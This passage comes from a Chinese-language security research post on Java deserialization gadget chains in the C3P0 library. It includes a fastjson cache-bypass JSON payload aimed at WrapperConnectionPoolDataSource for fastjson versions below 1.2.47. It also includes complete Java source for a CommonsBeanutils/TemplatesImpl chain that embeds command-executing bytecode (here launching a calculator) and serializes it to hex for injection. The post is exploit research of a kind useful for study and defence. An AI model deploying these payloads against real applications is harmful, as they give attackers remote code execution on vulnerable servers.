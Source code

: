 [![image-20220810144104414.png](https://storage.tttang.com/media/attachment/2022/08/10/3ea0279b-0522-410e-b646-8e6fd4f9cba8.png)](https://storage.tttang.com/media/attachment/2022/08/10/3ea0279b-0522-410e-b646-8e6fd4f9cba8.png)

最后进入到`deserializeFromByteArray`中，进行二次反序列化

[![image-20220810144223161.png](https://storage.tttang.com/media/attachment/2022/08/10/cf54401f-d786-4682-9163-4137ee385cc0.png)](https://storage.tttang.com/media/attachment/2022/08/10/cf54401f-d786-4682-9163-4137ee385cc0.png)

至此该链子就通了，构造起来呢，相信大家也都看出来了，可以利用 fastjson 来达成，在小于1.2.47的版本，使用缓存绕过

```
{
    "rand1": {
        "@type": "java.lang.Class",
        "val": "com.mchange.v2.c3p0.WrapperConnectionPoolDataSource"
    },
    "rand2": {
        "@type": "com.mchange.v2.c3p0.WrapperConnectionPoolDataSource",
        "userOverridesAsString": "HexAsciiSerializedMap:hexstring;",
    }
}
```

最后那个封号不要忘记！

#### [C3P0_Hex](https://tttang.com/archive/1701/#toc_c3p0_hex)

这条链子就得看依赖了，有什么打什么，记得把序列化后的内容转化为16进制字符就可以了

茯苓这里给出 CBShiro 的例子（别问，问就是偏爱）

```
import com.sun.org.apache.xalan.internal.xsltc.trax.TemplatesImpl;
import com.sun.org.apache.xalan.internal.xsltc.trax.TransformerFactoryImpl;
import org.apache.commons.beanutils.BeanComparator;
import java.util.PriorityQueue;
import static util.Tool.*;

public class Hex {
    public static void main(String[] args) throws Exception{
        TemplatesImpl obj = new TemplatesImpl();
        setFieldValue(obj, "_bytecodes", new byte[][]{
                payload("mate-calc").toBytecode()});
        setFieldValue(obj, "_name", "Poria");
        setFieldValue(obj, "_tfactory", new TransformerFactoryImpl());

        BeanComparator comparator = new BeanComparator(null, String.CASE_INSENSITIVE_ORDER);
        PriorityQueue<Object> queue = new PriorityQueue<Object>(2, comparator);
        queue.add("1");
        queue.add("1");

        setFieldValue(comparator, "property", "outputProperties");
        setFieldValue(queue, "queue", new Object[]{obj, null});

        run(queue, "debug", "hex");
    }
}
```
